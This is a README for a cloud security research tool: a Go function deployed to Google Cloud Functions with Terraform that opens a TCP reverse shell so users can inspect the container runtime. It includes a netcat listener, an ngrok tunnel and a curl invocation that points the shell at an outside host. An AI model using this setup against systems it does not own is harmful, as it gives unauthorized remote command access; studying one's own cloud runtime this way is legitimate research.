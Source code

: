 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Go](https://go.dev)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
gcloud auth application-default login
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}')
export TF_VAR_project_id=YOUR_PROJECT_ID
cd ./cougar/src/terraform/
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function URL:

```bash
export CHEETAH_FUNCTION_URL=$(terraform output --json | jq -r '.cheetah_function_url.value')
export CHEETAH_API_KEY=$(terraform output --json | jq -r '.cheetah_api_key.value')
curl -H "X-API-Key: $CHEETAH_API_KEY" "$CHEETAH_FUNCTION_URL"
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
../../../script/prey.sh cheetah --url $CHEETAH_FUNCTION_URL --api-key $CHEETAH_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "$CHEETAH_FUNCTION_URL?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cheetah.

